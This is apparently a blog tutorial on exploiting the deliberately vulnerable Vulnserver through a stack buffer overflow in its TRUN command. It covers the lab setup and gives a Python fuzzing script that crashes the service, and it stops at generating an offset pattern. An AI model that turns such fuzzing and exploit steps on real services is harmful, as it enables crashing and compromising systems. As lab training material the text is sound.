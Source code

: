 ```yaml
---
title: "Vulnserver - Stack Based Buffer Overflow"
date: 2020-01-19 
header:  
excerpt: "Vulnserver - Stack Based Buffer Overflow"
---
```


##  Intro

Vulnserver is an intentionally vulnerable software that can be found from [thegreycorner's blog](http://www.thegreycorner.com/p/vulnserver.html) or alternatively on their [GitHub](https://github.com/stephenbradshaw/vulnserver).

The software has multiple different Buffer Overflow vulnerabilities of which the Stack Based Buffer Overflow using the TRUN command is the simplest.

To practice exploiting the software we need the following
* [Immunity Debugger](https://www.immunityinc.com/products/debugger/)
* [Kali](https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-image-download/)
* [Mona.py](https://github.com/corelan/mona)
* Vulnserver
* Windows 10 (**32-Bit**)

## Setup

I will be using [VMware Workstation pro](https://my.vmware.com/en/web/vmware/info/slug/desktop_end_user_computing/vmware_workstation_pro/15_0), you could alternatively use [VirtualBox](https://www.virtualbox.org/wiki/Downloads) which is free. Select the version  based on your operating system e.g. Windows.
After downloading the preferred Virtualization platform we need to create the two Virtual Machines Windows & Kali.

After creating the VMs, start up Windows VM and download vulnserver, immunity debugger & mona.

### Setting up Immunity Debugger

Download [Immunity Debugger](https://debugger.immunityinc.com/ID_register.py), before you can download the site asks you to
fill the form, you can put random information in the fields.

![immu1](/images/vulnserver/stack/immu1.PNG)

Install Immunity Debugger and when the installer asks to install python 2.7.1 allow the installation.
After the installation is complete download [mona](https://github.com/corelan/mona) and copy the mona.py over to the
Pycommands folder inside Immunity Debugger. In this case **C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands**

![mona1](/images/vulnserver/stack/mona1.PNG)

You can now open Immunity Debugger by right clicking the shortcut and "run as administrator"

![immu2](/images/vulnserver/stack/immu2.PNG)

### Setting up Vulnserver

Download the Vulnserver software and extract it somewhere where it is easy to access such as the Desktop.

![vuln1](/images/vulnserver/stack/vuln1.PNG)

In the vulnserver folder there a few files, start the vulnserver.exe by right clicking it and "run as administrator"

![vuln2](/images/vulnserver/stack/vuln2.PNG)

You now have vulnserver up and running

![vuln3](/images/vulnserver/stack/vuln3.PNG)


## Exploiting TRUN Command

Now that we have basic setup done, we can start exploiting vulnserver via the TRUN command. First we can connect  to the
server using netcat, by default vulnserver listens on port 9999. Connect with **nc -v Windows VM IP 9999**, we can also list
the commands by issuing the command **HELP** after connecting.

![exp1](/images/vulnserver/stack/exp1.PNG)

First we create a fuzzing script with python that we can use to crash vulnserver. An example code could be something like

```python
#!/usr/bin/python
import sys, socket
from time import sleep

host = "192.168.209.133"
port = 9999

buffer = "A" * 100

while True:
         try:
                s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                s.connect((host,port))
                s.send(('TRUN /.:/' + buffer))
                s.close()
                sleep(1)
                buffer = buffer + "A" * 100

         except:
                 print "Fuzzing crashed at %s bytes" % str(len(buffer))
                 sys.exit()
```

After running the python code, we can check Immunity Debugger and in a few moments we can see that the program has crashed with
access violation and execution of the program is paused, which is good (note since I'm using Windows 10 older versions may act differently).

![exp2](/images/vulnserver/stack/exp2.PNG)

Looking at our fuzzing script we can see that the crash occured around 2400 bytes

![exp3](/images/vulnserver/stack/exp3.PNG)

Next we have to create an unique string to find the offset - or where the crash actually happened within the 2400 bytes using the pattern_create.rb tool included in the metasploit-framework,
**/usr/share/metasploit-framework/tools/exploit/pattern_create.rb** specify the lenght of the string the -l flag e.g. -l 2400

![exp4](/images/vulnserver/stack/exp4.PNG)
